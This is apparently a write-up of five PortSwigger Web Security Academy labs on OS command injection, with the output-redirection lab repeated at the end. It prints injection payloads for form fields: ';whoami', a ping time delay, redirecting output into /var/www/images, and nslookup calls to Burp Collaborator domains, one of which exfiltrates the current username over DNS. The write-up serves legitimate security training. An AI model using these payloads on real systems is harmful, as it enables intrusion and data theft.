01 OS command injection, simple case
====================================

This lab contains an OS command injection vulnerability in the product stock
checker.

The application executes a shell command containing user-supplied product and
store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the
current user.

References:

-   https://portswigger.net/web-security/os-command-injection






~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

productId=1&storeId=1;whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



02 Blind OS command injection with time delays
==============================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause
a 10 second delay.

References:

-   https://portswigger.net/web-security/os-command-injection


There is a function to submit feedback:



The vulnerability affects the fields “Name”, “Email” and “Message”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
"; ping -c 127.0.0.1; echo "a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


03 Blind OS command injection with output redirection
=====================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The output from the command is not returned in the response. However, you can
use output redirection to capture the output from the command. There is a
writable folder at /var/www/images/.

The application serves the images for the product catalog from this location.
You can redirect the output from the injected command to a file in this folder,
and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

Reference: https://portswigger.net/web-security/os-command-injection


Generated link:
https://0a19003c045b2b62809bd0800086001d.web-security-academy.net/

There is a functionality for submitting feedback:


And the images are retrieved with a GET request:



We need to execute:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whoami > /var/www/images/whoami.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I sent the POST request to intruder and set 3 fields to attack in Sniper mode:



Then I added 3 payloads:



When we add payloads to the field subject the website returns an error:


We get the username “peter-5fYwD0” after a GET to "/image?filename=whoami.txt",
so the intruder attack worked:





04 Blind OS command injection with out-of-band interaction
==========================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The command is executed asynchronously and has no effect on the application's
response. It is not possible to redirect output into a location that you can
access. However, you can trigger out-of-band interactions with an external
domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue
a DNS lookup to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/os-command-injection

-   https://book.hacktricks.xyz/pentesting-web/command-injection


There is a function to submit feedback:


In this case the command injection is achieved with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
`nslookup 7s0qd0oqa0r71b9pewc0nu7a41asynmc.oastify.com`
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





05 Blind OS command injection with out-of-band data exfiltration
================================================================

This lab contains a blind OS command injection vulnerability in the feedback
function.

The application executes a shell command containing the user-supplied details.
The command is executed asynchronously and has no effect on the application's
response. It is not possible to redirect output into a location that you can
access. However, you can trigger out-of-band interactions with an external
domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS
query to Burp Collaborator. You will need to enter the name of the current user
to complete the lab.

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/os-command-injection



There is a function to submit feedback. It allows out-of-band interaction with
the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(nslookup juh2fcq2cctj3nb1g8ecp69m6dc400op.oastify.com)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We get the username ("peter-0B6BNY") using the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$(nslookup `whoami`.m1o5mfx5jf0maqi4nblfw9gpdgj774vt.oastify.com)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~






# 22 - Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at /var/www/images/.

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

---------------------------------------------

Reference: https://portswigger.net/web-security/os-command-injection


---------------------------------------------

Generated link: https://0a19003c045b2b62809bd0800086001d.web-security-academy.net/

There is a functionality for submitting feedback:


And the images are retrieved with a GET request:


We need to execute:

```
whoami > /var/www/images/whoami.txt
```

I sent the POST request to intruder and set 3 fields to attack in Sniper mode:


Then I added 3 payloads:


When we add payloads to the field subject the website returns an error:


We get the username “peter-5fYwD0” after a GET to "/image?filename=whoami.txt", so the intruder attack worked:


